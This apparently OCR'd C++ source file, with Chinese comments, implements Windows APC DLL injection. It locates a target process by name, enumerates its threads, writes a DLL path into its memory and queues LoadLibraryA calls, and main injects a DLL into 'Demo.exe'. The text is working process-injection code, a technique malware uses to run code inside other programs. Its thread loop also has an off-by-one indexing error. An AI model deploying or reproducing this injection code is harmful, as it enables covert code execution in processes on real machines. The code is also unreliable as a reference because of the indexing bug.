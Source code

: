 ```
#include <Windows.h>#include<TlHelp32.h>// 根据进程名称获取PIDDWORD GetProcessPID(const char* pszProcessName){    DWORD dwProcessId = 0;    PROCESSENTRY32 pe32 = { 0 };    HANDLE hSnapshot = NULL;    BOOL bRet = FALSE;    ::RtlZeroMemory(&pe32, sizeof(pe32));    pe32.dwSize = sizeof(pe32);    // 获取进程快照    hSnapshot = ::CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);    if (NULL == hSnapshot)    {        MessageBox(NULL, "CreateToolhelp32Snapshot error", "TITLE", MB_OK);        return dwProcessId;    }    // 获取第一条进程快照信息    bRet = ::Process32First(hSnapshot, &pe32);    while (bRet)    {        // 获取快照信息        if (0 == ::lstrcmpi(pe32.szExeFile, pszProcessName))        {            dwProcessId = pe32.th32ProcessID;            break;        }        // 遍历下一个进程快照信息        bRet = ::Process32Next(hSnapshot, &pe32);    }    return dwProcessId;}// 根据PID获取所有的相应线程IDBOOL GetThreadID(DWORD dwProcessId, DWORD** ppThreadId, DWORD* pdwThreadIdLength){    DWORD* pThreadId = NULL;    DWORD dwThreadIdLength = 0;    DWORD dwBufferLength = 1000;    THREADENTRY32 te32 = { 0 };    HANDLE hSnapshot = NULL;    BOOL bRet = TRUE;    do    {        // 申请内存        pThreadId = new DWORD[dwBufferLength];        if (NULL == pThreadId)        {            MessageBox(NULL, "申请内存 error", "TITLE", MB_OK);            bRet = FALSE;            break;        }        ::RtlZeroMemory(pThreadId, (dwBufferLength * sizeof(DWORD)));        // 获取线程快照        ::RtlZeroMemory(&te32, sizeof(te32));        te32.dwSize = sizeof(te32);        hSnapshot = ::CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, 0);        if (NULL == hSnapshot)        {            MessageBox(NULL, "CreateToolhelp32Snapshot error", "TITLE", MB_OK);            bRet = FALSE;            break;        }        // 获取第一条线程快照信息        bRet = ::Thread32First(hSnapshot, &te32);        while (bRet)        {            // 获取进程对应的线程ID            if (te32.th32OwnerProcessID == dwProcessId)            {                pThreadId[dwThreadIdLength] = te32.th32ThreadID;                dwThreadIdLength++;            }            // 遍历下一个线程快照信息            bRet = ::Thread32Next(hSnapshot, &te32);        }        // 返回        *ppThreadId = pThreadId;        *pdwThreadIdLength = dwThreadIdLength;        bRet = TRUE;    } while (FALSE);    if (FALSE == bRet)    {        if (pThreadId)        {            delete[]pThreadId;            pThreadId = NULL;        }    }    return bRet;}// APC注入BOOL ApcInjectDll(const char* pszProcessName,const char* pszDllName){    BOOL bRet = FALSE;    DWORD dwProcessId = 0;    DWORD* pThreadId = NULL;    DWORD dwThreadIdLength = 0;    HANDLE hProcess = NULL, hThread = NULL;    PVOID pBaseAddress = NULL;    PVOID pLoadLibraryAFunc = NULL;    SIZE_T dwRet = 0, dwDllPathLen = 1 + ::lstrlen(pszDllName);    DWORD i = 0;    do    {        // 根据进程名称获取PID        dwProcessId = GetProcessPID(pszProcessName);        if (0 >= dwProcessId)        {            bRet = FALSE;            break;        }        // 根据PID获取所有的相应线程ID        bRet = GetThreadID(dwProcessId, &pThreadId, &dwThreadIdLength);        if (FALSE == bRet)        {            bRet = FALSE;            break;        }        // 打开注入进程        hProcess = ::OpenProcess(PROCESS_ALL_ACCESS, FALSE, dwProcessId);        if (NULL == hProcess)        {            MessageBox(NULL, "OpenProcess error", "TITLE", MB_OK);            bRet = FALSE;            break;        }        // 在注入进程空间申请内存        pBaseAddress = ::VirtualAllocEx(hProcess, NULL, dwDllPathLen, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);        if (NULL == pBaseAddress)        {            MessageBox(NULL, "VirtualAllocEx error", "TITLE", MB_OK);            bRet = FALSE;            break;        }        // 向申请的空间中写入DLL路径数据         ::WriteProcessMemory(hProcess, pBaseAddress, pszDllName, dwDllPathLen, &dwRet);        if (dwRet != dwDllPathLen)        {            MessageBox(NULL, "WriteProcessMemory error", "TITLE", MB_OK);            bRet = FALSE;            break;        }        // 获取 LoadLibrary 地址        pLoadLibraryAFunc = ::GetProcAddress(::GetModuleHandle("kernel32.dll"), "LoadLibraryA");        if (NULL == pLoadLibraryAFunc)        {            MessageBox(NULL, "GetProcAddress error", "TITLE", MB_OK);            bRet = FALSE;            break;        }        // 遍历线程, 插入APC        i = dwThreadIdLength;        for (; i > 0; --i)        {            // 打开线程            hThread = ::OpenThread(THREAD_ALL_ACCESS, FALSE, pThreadId[i]);            if (hThread)            {                // 插入APC                ::QueueUserAPC((PAPCFUNC)pLoadLibraryAFunc, hThread, (ULONG_PTR)pBaseAddress);                // 关闭线程句柄                ::CloseHandle(hThread);                hThread = NULL;            }        }        bRet = TRUE;    } while (FALSE);    // 释放内存    if (hProcess)    {        ::CloseHandle(hProcess);        hProcess = NULL;    }    if (pThreadId)    {        delete[]pThreadId;        pThreadId = NULL;    }    return bRet;}int main() {    ApcInjectDll("Demo.exe", "F:\\Dll.dll");    return 0;}
```
